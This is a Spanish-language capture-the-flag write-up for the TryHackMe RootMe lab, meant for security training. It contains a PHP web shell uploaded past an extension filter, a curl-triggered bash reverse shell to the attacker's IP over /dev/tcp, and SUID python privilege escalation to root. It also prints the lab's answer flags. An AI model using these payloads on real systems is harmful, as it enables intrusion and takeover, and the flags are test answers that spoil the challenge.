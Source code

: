 ```yaml
---
title: THM - RootMe
tags: [tryhackme, web, linux, revese-shell, privilege-escalation]
---
```


# THM - RootMe

~~~shell 
$ sudo nmap -sC -sV --min-rate 4000 --open $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2023-07-10 20:27 -05
Nmap scan report for 10.10.94.0 (10.10.94.0)
Host is up (0.19s latency).
Not shown: 997 closed ports, 1 filtered port
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.19 seconds
~~~

**Flag \#1:** *Scan the machine, how many ports are open?* `3`

**Flag \#2:** *What version of Apache is running?* `2.4.29`

**Flag \#3:** *What service is running on port 22?* `ssh`

## Enumeración de rutas

<https://github.com/v0re/dirb/blob/master/wordlists/common.txt>

~~~shell
wget https://raw.githubusercontent.com/v0re/dirb/master/wordlists/common.txt -o /usr/share/wordlists/common.txt
~~~

~~~shell
gobuster dir -u http://$IP -w /usr/share/wordlists/common.txt
~~~


Encontrarmos un ruta

## Ejecución

Crear un archivo llamado `shell.php`para subirlo en `/panel`

~~~shell
<?php
$cmd = $_GET['cmd'];
system($cmd);
?>
~~~

![](https://hackmd.io/_uploads/rkshxHqtn.png)

Como no deja subir archivos `.php` vamos a utilizar otra extensión que apache también podría interpretar para php

<https://book.hacktricks.xyz/pentesting-web/file-upload>

Podemos tambien utilizar los payloads del *intruder* de Burp para probar todas las extensiones posibles. 

En esta caso vamos a probrar con la extensión `.phtml`
![](https://hackmd.io/_uploads/ByMX7rqY3.png)

![](https://hackmd.io/_uploads/B1WI7B5t3.png)


## Ejecución remota

![](https://hackmd.io/_uploads/rJUumr5Y2.png)

Ponemos en escucha netcat
~~~shell
sudo nc -nlvp 5000
~~~

~~~shell
curl 'http://10.10.94.0/uploads/shell.phtml?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.18.41.138/5000%200%3E%261%27'
~~~

![](https://hackmd.io/_uploads/HyBLLB9Y2.png)

~~~shell
www-data@ip-10-10-84-97:/var/www/html$ tty
tty
not a tty
~~~

~~~shell
www-data@ip-10-10-84-97:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@ip-10-10-84-97:/var/www/html$ tty
tty
/dev/pts/0
www-data@ip-10-10-84-97:/var/www/html$ stty raw -echo;
~~~

## Archivo user.txt
~~~shell
$ find / -name user.txt 2>/dev/null
/var/www/user.txt
~~~

~~~shell
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
~~~



## Escalación de privilegios


~~~shell
$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount

~~~

En particular, `-perm -4000` busca archivos que tienen el bit setuid activado. El bit setuid permite que un archivo se ejecute con los permisos del propietario del archivo en lugar de los permisos del usuario que lo ejecuta. Los archivos con el bit setuid suelen ser ejecutables con privilegios especiales.

<https://gtfobins.github.io/gtfobins/python/#suid>

~~~shell
$ which python
/usr/bin/python
~~~

~~~shell
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# 
~~~

~~~shell
# ls /root
root.txt
# cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
~~~

![](https://hackmd.io/_uploads/Hy0CYBqth.png)
exi
